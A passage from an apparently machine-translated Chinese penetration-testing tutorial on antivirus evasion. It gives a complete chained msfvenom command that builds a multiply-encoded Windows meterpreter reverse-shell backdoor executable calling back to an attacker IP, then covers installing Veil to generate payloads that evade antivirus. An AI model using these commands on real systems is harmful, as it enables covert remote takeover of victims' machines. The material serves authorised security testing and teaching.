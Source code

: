 MSFvenom 有更多的选项和开关；上表描述了创建有效负载时通常使用的方法。

MSFvenom 允许将多个命令链接在一起。这是在每个命令结束时使用`| \`序列完成的。

要使用一系列命令创建有效负载，请执行以下步骤。注意每个命令末尾的`| \`序列。

在终端窗口中，输入以下命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o MSFV-payload.exe

```

完成输入上述命令后，应获得以下输出：

![](assets/6371948d-f93c-4879-b68a-e4bbf90c0ffd.png)

图 1：链接的 MSFvenom 命令

在命令的第一行中，我们定义要使用的`meterpreter/reverse_tcp`有效载荷。然后定义攻击主机的 IP（`LHOST`和端口（`LPORT`。然后我们使用原始格式（`-f`），并使用`shikata_ga_nai`编码器（`-e`）进行 15 次迭代（`-i 15`。

在命令的第二行中，我们通过定义架构（`-a`）、平台（本例中为 Windows（`--platform`）以及迭代 9 次的`x86/countdown`编码器，进一步对原始文件进行编码。

最后，我们通过再次运行`shikata_ga_nai`编码器并使用`-f exe -o`选项创建一个`exe`文件来编译它。

一旦命令执行，它将创建一个名为`MSFV-payload.exe`的后门文件，该文件存储在`/root/Downloads/`文件夹中。

我们将在本章后面的*测试绕过技术*部分测试该文件的检测率。

# 逃避面纱

“面纱绕过”工具集可用于创建外壳代码，以绕过常见的使用，并生成反向外壳。

可以按照以下步骤安装工具套件：

1.  在 Kali Linux 中打开终端窗口。
2.  使用`apt install -y veil`命令。这将下载工具套件、所有依赖项，并为安装做好准备。当我们被询问是否要安装软件时，`-y`命令用于简单地预定义`yes`参数。

3.  下载完所有内容后，您可以通过运行`veil`**命令启动安装（请参见下面的屏幕截图）。使用`s`**选项进行静默安装。这仍将向您显示正在安装的组件，但不需要您进行交互：****

 ****![](assets/08de093e-1133-458c-8311-059b417ff79f.png)

图 2：安装面纱组件

Veil 安装完成后，您可以从终端窗口使用`veil`命令运行该工具。在第一次启动时，您将看到主窗口（参见下面的屏幕截图），其中将显示已加载的两个工具。使用`use [number]`命令完成特定工具的使用；例如，要使用`Evasion`，您可以使用`use 1`命令：

![](assets/70b7e294-9cf5-4dda-8881-ac36eb613fc9.png)

图 3：初始菜单

我们现有的工具有`Evasion`和`Ordnance`。这两种工具执行不同的功能，如下所示：

*   `Evasion`：此**用于生成可用于绕过防病毒的有效负载。**
***   `Ordnance`：用于生成可与`Evasion`一起使用的外壳代码。`Ordnance`无需使用 MSFvenom 生成外壳代码。原因是，随着 MSFvenom 的更新，它将破坏`Evasion`创建的有效负载。**
